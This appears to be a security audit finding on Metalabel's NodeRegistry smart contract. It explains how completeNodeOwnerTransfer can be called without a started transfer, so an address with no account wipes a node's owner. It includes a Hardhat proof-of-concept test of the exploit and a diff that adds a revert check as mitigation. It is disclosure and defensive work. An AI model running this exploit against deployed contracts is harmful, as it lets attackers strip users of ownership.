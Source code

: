 There is currently no verification that ownership transfer has started. In other words `completeNodeOwnerTransfer` can be called before or without even calling `startNodeOwnerTransfer`. This opens the possibility for any malicious user to call `completeNodeOwnerTransfer` from an address that does not have an account registered in the AccountRegistry contract (`accounts.resolveId(msg.sender)` will be equal to 0). Therefore, the only check used to verify that msg.sender is the new owner will pass, as both values will be the default uint64 mapping values (0).

#### **Proof Of Concept**

Place the following test case in [test/NodeRegistry.spec.ts](https://github.com/metalabel/metalabel-contracts-v1/blob/effe2e89996d6809c5ec6c6da10c663246f91fc1/test/NodeRegistry.spec.ts)

```js
const [user, attacker] = await ethers.getSigners()

// User creates an account.
await accountRegistry.createAccount(user.address, '')
const userAccountId = await accountRegistry.resolveId(user.address)

// User creates a node and sets their Metalabel account as the owner of this node.
await createNode({ owner: userAccountId.toNumber() })
const userNodeId = await nodeRegistry.totalNodeCount()

// Assert setup.
expect(await nodeRegistry.ownerOf(userNodeId)).to.eq(userAccountId)

// Attacker that has no Metalabel account calls nodeRegistry.completeNodeOwnerTransfer(userNodeId).
expect(await accountRegistry.resolveId(attacker.address)).to.eq(0)
await nodeRegistry.connect(attacker).completeNodeOwnerTransfer(userNodeId)

// Attacker deletes the owner of the user's node. Exploit is successful.
expect(await nodeRegistry.ownerOf(userNodeId)).to.eq(0)
```

#### **Recommended Mitigation Steps**

Ensure that `NodeRegistry.completeNodeOwnerTransfer(uint64 id)` can not be called when `pendingNodeOwnerTransfers[id]` is 0:

```diff
/// @notice Complete the 2-step node transfer process. Can only be called by
/// by the new owner
function completeNodeOwnerTransfer(uint64 id) external {
    uint64 newOwner = pendingNodeOwnerTransfers[id];
    uint64 accountId = accounts.resolveId(msg.sender);

+   if (newOwner == 0) revert NodeOwnerTranferNotStarted();
    if (newOwner != accountId) revert NotAuthorizedForNode();

    nodes[id].owner = newOwner;
    delete pendingNodeOwnerTransfers[id];
    emit NodeOwnerSet(id, newOwner);
}
```
